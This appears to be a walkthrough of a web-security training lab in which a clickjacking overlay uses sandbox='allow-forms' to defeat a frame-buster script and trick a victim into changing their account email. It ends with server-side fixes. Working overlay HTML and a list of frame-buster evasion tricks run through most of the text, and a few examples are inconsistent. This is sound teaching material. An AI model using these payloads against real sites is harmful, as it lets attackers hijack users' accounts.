

---

**Difficulty:** 🟢 Apprentice

**Goal:**

- 🔍 Understand frame buster scripts and their purpose
- 🛡️ Bypass frame buster protection using iframe sandbox
- 🖼️ Create clickjacking overlay with prefilled email
- 🎯 Trick user into changing their email address
- 🎉 Complete lab

---

## 🧠 **Concept Recap**

> **Frame buster scripts** are JavaScript-based protections that prevent a page from being loaded in an iframe. They detect if the page is framed and break out of the frame. However, the HTML5 `sandbox` attribute can neutralize these scripts by restricting the iframe's permissions.

### 📊 **The Vulnerability**

**Frame Buster Script (Client-Side Protection):**

```r
// Typical frame buster script
if (top != self) {
    top.location = self.location;
}

// What it does:
// 1. Checks if current window is the top window
// 2. If page is in iframe (top != self)
// 3. Forces parent window to navigate to current page
// 4. Breaks out of the iframe
```

**The Problem:**

```r
Normal Clickjacking (Without Frame Buster):
┌────────────────┐
│   Attacker     │
└────────┬───────┘
         │ Load victim page in iframe
         ↓
    ┌──────────────┐
    │   Iframe     │
    │ (Page loads) │
    └────────┬─────┘
             │ Page renders normally
             ↓
        ✅ Attack succeeds


With Frame Buster Script (Blocked):
┌────────────────┐
│   Attacker     │
└────────┬───────┘
         │ Load victim page in iframe
         ↓
    ┌──────────────┐
    │   Iframe     │
    │ (Page loads) │
    └────────┬─────┘
             │ Frame buster runs
             │ if (top != self) { ... }
             ↓
        [Breaks out of iframe!]
             ↓
    ┌────────────────┐
    │ Full page load │
    │ No iframe!     │
    └────────────────┘
             ↓
        ❌ Attack blocked


With sandbox="allow-forms" (Bypass):
┌────────────────┐
│   Attacker     │
└────────┬───────┘
         │ <iframe sandbox="allow-forms" src="...">
         ↓
    ┌──────────────┐
    │   Iframe     │
    │ (Sandboxed)  │
    └────────┬─────┘
             │ JavaScript disabled!
             │ Frame buster cannot run
             ↓
        [Page renders in iframe]
             ↓
        ✅ Attack succeeds!
```

**Key Insight:**

```r
Sandbox attribute restricts iframe capabilities:
├── sandbox=""                    → Maximum restrictions
├── sandbox="allow-forms"         → Only forms work
├── sandbox="allow-scripts"       → Only JavaScript works
└── sandbox="allow-forms allow-scripts" → Both work

Frame buster needs JavaScript to run!
└── sandbox="allow-forms" disables JavaScript
    └── Frame buster script never executes
        └── Page stays in iframe
            └── Clickjacking possible! 🎯
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 - Access Lab and Explore**

1. 🌐 Click **"Access the lab"**
2. 🔑 Log in with credentials: **wiener:peter**
3. 👀 Go to **"My account"** page

**What you see:**

```
Account Page:
├── Username: wiener
├── Email update form
│   ├── Email input field
│   └── "Update email" button ⭐ (Our target!)
└── Frame buster script (hidden in source)
```

---

### 🔍 **Step 2 - Understand the Frame Buster**

**View page source (Ctrl+U or right-click → View Page Source):**

```r
<!DOCTYPE html>
<html>
<head>
    <title>My Account</title>
    <script>
        // Frame buster script
        if (top != self) {
            top.location = self.location;
        }
    </script>
</head>
<body>
    <h1>My Account</h1>
    <form id="email-change-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input type="email" name="email" value="wiener@normal-user.net">
        <button type="submit">Update email</button>
    </form>
</body>
</html>
```

**Frame buster logic:**

```r
if (top != self) {
    // 'top' = topmost window (attacker's page)
    // 'self' = current window (iframe)
    // If they're different, page is in iframe
    
    top.location = self.location;
    // Force parent to navigate to this page
    // Breaks out of iframe!
}
```

---

### 🎯 **Step 3 - Test URL Parameter (Email Prefilling)**

**Try accessing the account page with an email parameter:**

```r
Original URL:
https://YOUR-LAB-ID.web-security-academy.net/my-account

With email parameter:
https://YOUR-LAB-ID.web-security-academy.net/my-account?email=test@evil.com
```

1. 🌐 Navigate to: `/my-account?email=test@evil.com`
2. 👀 Observe the email field

**Result:**

```
✅ Email field is pre-filled with "test@evil.com"
✅ URL parameters work for prefilling
💥 We can use this in our clickjacking attack!
```

---

### 🛠️ **Step 4 - Go to Exploit Server**

1. 🖱️ Click **"Go to exploit server"**
2. 📝 You'll see a form with **Body** field

---

### 🖼️ **Step 5 - Create Basic Clickjacking Template (Will Fail)**

**Paste this initial template:**

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 465px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```

**Replace YOUR-LAB-ID with your actual lab ID!**

---

### ⚠️ **Step 6 - Test and Observe Frame Buster**

1. 📝 Click **"Store"**
2. 👁️ Click **"View exploit"**

**What you see:**

```
┌─────────────────────────────────┐
│                                 │
│  This page cannot be framed     │
│                                 │
│  (Or the full page loads        │
│   outside the iframe)           │
│                                 │
└─────────────────────────────────┘

Frame buster script detected it's in iframe!
└── Executed: top.location = self.location
    └── Parent window navigated to victim site
        └── Iframe broken!
```

**Why it fails:**

```
1. Attacker page loads iframe
2. Victim page loads in iframe
3. JavaScript executes in iframe
4. Frame buster detects: top != self (true)
5. Frame buster executes: top.location = self.location
6. Parent window navigates away
7. ❌ Attack blocked!
```

---

### 🔓 **Step 7 - Add Sandbox Attribute (Bypass!)**

**Modify the iframe tag to include `sandbox="allow-forms"`:**

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 465px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
         ↑ Added sandbox attribute!
```

**What `sandbox="allow-forms"` does:**

```
Sandbox Restrictions:
├── ❌ JavaScript disabled (scripts won't run)
├── ✅ Forms enabled (can submit forms)
├── ❌ Popups disabled
├── ❌ Top navigation disabled
└── ❌ Plugins disabled

Result:
└── Frame buster script cannot execute (no JavaScript)
    └── Page renders in iframe
        └── Form still works (allow-forms)
            └── Clickjacking possible! 🎯
```

---

### 🎨 **Step 8 - Test the Bypass**

1. 📝 Click **"Store"**
2. 👁️ Click **"View exploit"**

**Success! Now you should see:**

```
┌─────────────────────────────────┐
│                                 │
│  [Account page visible in       │
│   iframe through transparency]  │
│                                 │
│         Click me  ← Visible     │
│                                 │
└─────────────────────────────────┘

✅ Page loads in iframe
✅ Frame buster neutralized
✅ Email pre-filled with "hacker@evil.com"
💥 Ready for positioning!
```

---

### 🎯 **Step 9 - Adjust Positioning**

**Positioning strategy:**

```r
div {
    position: absolute;
    top: 465px;      /* Distance from top */
    left: 80px;      /* Distance from left */
    z-index: 1;
}
```

**How to align:**

```
Goal: Position "Click me" exactly over "Update email" button

If "Click me" is:
├── Too high → Increase top value (385px → 400px)
├── Too low → Decrease top value (385px → 370px)
├── Too far left → Increase left value (80px → 90px)
├── Too far right → Decrease left value (80px → 70px)
```

**Testing process:**

```
1. Keep opacity at 0.1 (can see iframe)
2. Store and view exploit
3. Hover over "Click me"
4. Cursor should change to pointer over button
5. Adjust top/left values as needed
6. Repeat until aligned
7. DO NOT CLICK (will change YOUR email!)
```

**Common working values:**

```r
/* These typically work well */
div {
    position: absolute;
    top: 465px;      /* Usually 380-500px */
    left: 80px;      /* Usually 75-85px */
    z-index: 1;
}
```

---

### ✅ **Step 10 - Finalize Exploit**

**Once positioning is correct:**

1. Change opacity to nearly invisible: `opacity: 0.0001`
2. Verify email in URL is unique (not used by you in testing)
3. **Store** the exploit

**Final exploit code:**

```r
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.0001;       /* Nearly invisible */
        z-index: 2;
    }
    div {
        position: absolute;
        top: 465px;            /* Your adjusted value */
        left: 80px;            /* Your adjusted value */
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0a1b2c3d4e5f6789.web-security-academy.net/my-account?email=attacker@evil.com"></iframe>
```

---

### 🚀 **Step 11 - Deliver Exploit to Victim**

1. ✅ Verify exploit is stored
2. 🎯 Click **"Deliver exploit to victim"**
3. ⏳ Wait a few seconds

---

### 🎉 **Step 12 - Lab Completion**

**What happens:**

```
Victim's browser:
1. Loads exploit page
2. Sees "Click me" text
3. Iframe loads with pre-filled email (sandboxed)
4. Frame buster script doesn't run (JavaScript disabled)
5. Victim clicks "Click me"
6. Actually clicks "Update email" button in iframe
7. Form submits with new email
8. Email changed successfully!
```

**Lab completion:**

```
System checks:
├── Exploit delivered to victim? ✓
├── Victim clicked overlay? ✓
├── Email update form submitted? ✓
├── Frame buster bypassed? ✓
└── Email changed successfully? ✓

Result: LAB SOLVED!
```

**Completion banner:**

```
┌─────────────────────────────────┐
│  ✅ Congratulations!            │
│                                 │
│  You successfully bypassed the  │
│  frame buster script using      │
│  iframe sandbox and changed     │
│  the victim's email address.    │
│                                 │
│  Lab: Clickjacking with a frame │
│       buster script             │
│  Status: SOLVED ✓               │
└─────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and log in with wiener:peter
         ↓
Step 2: Observe email update functionality
         ↓
Step 3: Test email prefilling via URL parameter
         (Confirm: ?email=test@evil.com works)
         ↓
Step 4: Go to exploit server
         ↓
Step 5: Create basic clickjacking HTML
         ↓
Step 6: Test → Frame buster blocks it ❌
         ↓
Step 7: Add sandbox="allow-forms" to iframe
         ↓
Step 8: Test again → Frame buster bypassed ✅
         ↓
Step 9: Adjust positioning with opacity: 0.1
         ↓
Step 10: Finalize with opacity: 0.0001
         ↓
Step 11: Store exploit
         ↓
Step 12: Deliver exploit to victim
         ↓
Step 13: Victim clicks, email changed! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **Frame Buster Scripts**

**Common frame buster patterns:**

```r
// Pattern 1: Basic frame buster
if (top != self) {
    top.location = self.location;
}

// Pattern 2: More aggressive
if (top.location != self.location) {
    top.location.href = self.location.href;
}

// Pattern 3: With fallback
if (window.top !== window.self) {
    window.top.location = window.self.location;
}

// Pattern 4: Body replacement
if (top != self) {
    document.body.innerHTML = "This page cannot be framed";
}

// Pattern 5: Continuous checking
setInterval(function() {
    if (top != self) {
        top.location = self.location;
    }
}, 100);
```

**Why they exist:**

```
Frame busters protect against:
├── Clickjacking attacks
├── UI redressing
├── Credential theft
└── Unauthorized actions

They work by:
└── Detecting if page is framed
    └── Breaking out of iframe
        └── Preventing overlay attacks
```

---

### **The Sandbox Bypass**

**HTML5 Sandbox Attribute:**

```r
<!-- No sandbox (everything allowed) -->
<iframe src="victim.com/page"></iframe>

<!-- Maximum restrictions -->
<iframe sandbox="" src="victim.com/page"></iframe>

<!-- Allow forms only -->
<iframe sandbox="allow-forms" src="victim.com/page"></iframe>

<!-- Allow scripts only -->
<iframe sandbox="allow-scripts" src="victim.com/page"></iframe>

<!-- Allow both -->
<iframe sandbox="allow-forms allow-scripts" src="victim.com/page"></iframe>
```

**Sandbox permissions:**

```
┌─────────────────────────────────────────────────┐
│ Sandbox Value           │ Effect                │
├─────────────────────────┼───────────────────────┤
│ (no attribute)          │ No restrictions       │
│ sandbox=""              │ All restrictions      │
│ allow-forms             │ Form submission OK    │
│ allow-scripts           │ JavaScript OK         │
│ allow-popups            │ Popups OK             │
│ allow-top-navigation    │ Can change parent URL │
│ allow-same-origin       │ Treat as same origin  │
│ allow-pointer-lock      │ Pointer API OK        │
│ allow-modals            │ alert(), confirm() OK │
└─────────────────────────────────────────────────┘
```

**The bypass mechanism:**

```
Frame Buster Requirements:
├── Needs JavaScript to run
└── Needs access to 'top' object

sandbox="allow-forms":
├── ❌ Disables JavaScript
└── ✅ Allows form submission

Result:
└── Frame buster can't execute (no JavaScript)
    └── But forms still work
        └── Clickjacking succeeds!
```

---

### **Why This Works**

```js
# ❌ VULNERABLE CONFIGURATION

# Page has frame buster script
# But no server-side protection!

<!DOCTYPE html>
<html>
<head>
    <script>
        // Client-side protection only
        if (top != self) {
            top.location = self.location;
        }
    </script>
</head>
<body>
    <form action="/change-email" method="POST">
        <input type="email" name="email">
        <button type="submit">Update</button>
    </form>
</body>
</html>

# Problems:
# 1. Relies only on JavaScript (client-side)
# 2. Can be disabled with sandbox attribute
# 3. No server-side headers
# 4. No X-Frame-Options
# 5. No Content-Security-Policy
```

**Visual representation:**

```
Without Sandbox:
┌─────────────────────────────────┐
│ Attacker Page                   │
│  ┌───────────────────────────┐  │
│  │ <iframe src="victim">     │  │
│  │                           │  │
│  │  JavaScript runs ✓        │  │
│  │  Frame buster executes ✓  │  │
│  │  Breaks out of iframe ✓   │  │
│  └───────────────────────────┘  │
│                                 │
│ Result: Attack blocked ❌       │
└─────────────────────────────────┘

With sandbox="allow-forms":
┌─────────────────────────────────┐
│ Attacker Page                   │
│  ┌───────────────────────────┐  │
│  │ <iframe sandbox=          │  │
│  │   "allow-forms">          │  │
│  │                           │  │
│  │  JavaScript disabled ❌   │  │
│  │  Frame buster won't run ❌│  │
│  │  Forms still work ✓       │  │
│  └───────────────────────────┘  │
│                                 │
│ Result: Attack succeeds ✅      │
└─────────────────────────────────┘
```

---

## 🎯 **Quick Reference**

### **Sandbox Attribute Values**

|Value|Effect|Use Case|
|---|---|---|
|`sandbox=""`|Maximum restrictions|Safest, but breaks most functionality|
|`sandbox="allow-forms"`|Forms only|Bypass frame busters (our attack)|
|`sandbox="allow-scripts"`|JavaScript only|Keep scripts but restrict other features|
|`sandbox="allow-forms allow-scripts"`|Forms + JS|Less restrictive but frame buster might work|
|`sandbox="allow-top-navigation"`|Can change parent|Allows frame buster to work|

---

### **Common Positioning Values**

```r
/* Email update button typically at: */
div {
    top: 385px;      /* Range: 380-400px */
    left: 80px;      /* Range: 75-85px */
}

/* Delete account button typically at: */
div {
    top: 495px;      /* Range: 490-510px */
    left: 60px;      /* Range: 55-65px */
}
```

---

## 🔬 **Advanced Concepts**

### **Sandbox Bypass Variations**

```r
<!-- Variation 1: Minimal permissions -->
<iframe sandbox="allow-forms" src="..."></iframe>
✅ Forms work
❌ Scripts blocked
✅ Frame buster neutralized

<!-- Variation 2: Add scripts (frame buster might work) -->
<iframe sandbox="allow-forms allow-scripts" src="..."></iframe>
✅ Forms work
✅ Scripts work
⚠️ Frame buster might execute

<!-- Variation 3: Block top navigation -->
<iframe sandbox="allow-forms allow-scripts" src="..."></iframe>
✅ Forms work
✅ Scripts work
❌ Can't modify top.location
✅ Frame buster partially neutralized
```

---

### **Frame Buster Evasion Techniques**

```r
// Technique 1: Sandbox attribute (our approach)
<iframe sandbox="allow-forms" src="..."></iframe>

// Technique 2: 204 No Content response
// Attacker returns 204 status for parent navigation
// Frame buster tries: top.location = self.location
// But 204 means "no content" - page doesn't change

// Technique 3: onBeforeUnload handler
window.onBeforeUnload = function() {
    return false;  // Cancel navigation
}

// Technique 4: Nested iframes
<iframe src="attacker-intermediate.com">
    <!-- This page contains the actual attack iframe -->
    <iframe src="victim.com"></iframe>
</iframe>
// Frame buster breaks out to intermediate page
// Actual victim page stays in second iframe

// Technique 5: Double framing with JavaScript URL
<iframe src="javascript:document.write('<iframe src=victim></iframe>')">
```

---

### **Why Different Sandbox Combinations Matter**

```
sandbox="allow-forms"
├── ✅ Forms submit
├── ❌ JavaScript disabled
├── ❌ Frame buster won't run
└── ✅ Best for bypassing frame busters

sandbox="allow-forms allow-scripts"
├── ✅ Forms submit
├── ✅ JavaScript enabled
├── ⚠️ Frame buster WILL run
└── ❌ Won't bypass frame buster

sandbox="allow-forms allow-scripts allow-top-navigation"
├── ✅ Forms submit
├── ✅ JavaScript enabled
├── ✅ Can navigate parent
└── ❌ Frame buster works fully (defeats our attack!)

Key principle:
└── More permissions = more functionality
    └── But also more protections
        └── For our attack: minimal permissions best
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: X-Frame-Options Header**

```python
# ✅ SECURE VERSION - Server-side protection

from flask import Flask, make_response

app = Flask(__name__)

@app.route('/my-account')
@login_required
def my_account():
    response = make_response(render_template('account.html'))
    
    # SERVER-SIDE protection (can't be bypassed)
    response.headers['X-Frame-Options'] = 'DENY'
    
    return response

# Benefits:
# ✅ Browser enforces (not JavaScript)
# ✅ Sandbox attribute can't bypass
# ✅ Works even if scripts disabled
# ✅ Cannot be circumvented
```

---

### **Fix 2: Content Security Policy**

```python
# ✅ SECURE VERSION - Modern CSP

@app.route('/my-account')
@login_required
def my_account():
    response = make_response(render_template('account.html'))
    
    # Modern approach - more flexible
    response.headers['Content-Security-Policy'] = "frame-ancestors 'none'"
    
    return response

# Or allow specific origins:
# response.headers['Content-Security-Policy'] = "frame-ancestors 'self'"

# Benefits:
# ✅ More powerful than X-Frame-Options
# ✅ Better browser support
# ✅ Can whitelist specific domains
# ✅ Sandbox attribute cannot bypass
```

---

